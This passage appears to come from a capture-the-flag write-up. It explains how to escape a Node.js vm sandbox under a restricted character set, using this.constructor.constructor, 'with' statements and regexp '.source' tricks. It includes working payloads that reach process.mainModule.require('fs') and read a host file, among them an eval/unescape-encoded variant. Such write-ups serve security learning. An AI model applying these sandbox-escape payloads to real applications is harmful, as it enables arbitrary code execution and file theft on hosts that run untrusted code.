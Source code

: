 ``` js
);
```

It's east to bypass VM, we can use `this.constructor.constructor('return ...')()` . But the difficult part is about the limited charset, we can't use all string related symbol, also `.[]();>` is not allowed.

After trying for a while, I recalled that we can use [with](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/with) to access property, like this:

``` js
with(console)log(123)
```

For string, we can use regexp to bypass, like this:`/string/.source`.

I also thought about `decodeURI` but haven't try it, there are a lot of people solve it this way, like lebr0nli:

``` js
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
```

If regexp is converted into a string, there will be one `/` at the start and the other at the end. We can solve this issue by adding `/\n` to the regexp, it will be combined with the previous one like this:

``` js
//
your_code_here
```

The idea is similar to the [XSS challenge](https://blog.huli.tw/2022/02/14/en/intigriti-0222-author-writeup/) I made.

Anyway, here is the basic structure for my payload:

``` js
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
```

Just replace `console.log(1)` to the real code, the code we want to run is:

``` js
return String(process.mainModule.require('fs').readFileSync('flag.txt'))
```

`String()` is not required, just for better readability for the flag.

Then, we can use `with` to rewrite the code:

``` js
with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
```

Since single quote is not allowed, we can make it a variable first, then think about how to remove it.

``` js
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```
